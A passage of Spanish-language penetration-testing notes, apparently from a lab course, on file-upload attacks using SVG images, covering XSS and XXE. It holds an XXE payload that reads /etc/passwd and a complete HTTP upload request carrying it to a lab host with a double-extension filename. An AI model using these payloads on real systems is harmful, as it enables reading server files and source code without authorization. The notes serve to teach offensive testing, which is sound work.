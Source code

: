 Una vez que cargamos la imagen en la aplicación web, la carga útil de XSS se activará cada vez que se muestre la imagen.

### XXE

Se pueden llevar a cabo ataques similares para conducir a la explotación XXE. Con las imágenes SVG, también podemos incluir datos XML maliciosos para filtrar el código fuente de la aplicación web y otros documentos internos dentro del servidor. El siguiente ejemplo se puede usar para una imagen SVG que filtra el contenido de (`/etc/passwd`):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Una vez que se cargue y visualice la imagen SVG anterior, el documento XML se procesará y deberíamos obtener la información de (`/etc/passwd`) impresa en la página o mostrada en la fuente de la página. De manera similar, si la aplicación web permite la carga de documentos `XML`, la misma carga útil puede provocar el mismo ataque cuando los datos XML se muestran en la aplicación web.

ejemplo de peticion:

```bash
POST /contact/upload.php HTTP/1.1
Host: 138.68.182.130:30670
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------149256660527568199923809828290
Content-Length: 354
Origin: http://159.65.61.162:31295
Connection: close
Referer: http://159.65.61.162:31295/

-----------------------------149256660527568199923809828290
Content-Disposition: form-data; name="uploadFile"; filename="hola.phar.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

-----------------------------149256660527568199923809828290--
```

>[!note]
>Tambien funciona con `Content-Type: image/png`

Para usar XXE para leer el código fuente en aplicaciones web PHP, podemos usar la siguiente carga útil en nuestra imagen SVG:
